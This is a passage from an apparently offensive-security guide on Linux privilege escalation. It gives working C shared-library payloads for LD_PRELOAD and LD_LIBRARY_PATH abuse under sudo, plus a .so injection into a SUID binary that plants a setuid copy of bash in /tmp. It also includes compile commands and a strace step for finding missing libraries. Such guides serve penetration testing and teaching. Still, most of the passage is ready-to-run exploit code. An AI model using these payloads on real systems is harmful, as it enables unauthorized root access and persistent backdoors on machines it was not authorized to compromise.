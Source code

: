 ```
cd /tmp
gcc -fPIC -shared -o pe.so pe.c -nostartfiles
```

Finally, escalate privileges running

```
sudo LD_PRELOAD=./pe.so <COMMAND> #Use any command you can run with sudo
```

A similar privesc can be abused if the attacker controls the LD_LIBRARY_PATH env variable because he controls the path where libraries are going to be searched.

```
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
        unsetenv("LD_LIBRARY_PATH");
        setresuid(0,0,0);
        system("/bin/bash -p");
}
```

```
# Compile & execute
cd /tmp
gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c
sudo LD_LIBRARY_PATH=/tmp <COMMAND>
```

### SUID Binary – .so injection

When encountering a binary with SUID permissions that seems unusual, it's a good practice to verify if it's loading .so files properly. This can be checked by running the following command:

```
strace <SUID-BINARY> 2>&1 | grep -i -E "open|access|no such file"
```

For instance, encountering an error like "open(“/path/to/.config/libcalc.so”, O_RDONLY) = -1 ENOENT (No such file or directory)" suggests a potential for exploitation.

To exploit this, one would proceed by creating a C file, say "/path/to/.config/libcalc.c", containing the following code:

```
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject(){
    system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}
```
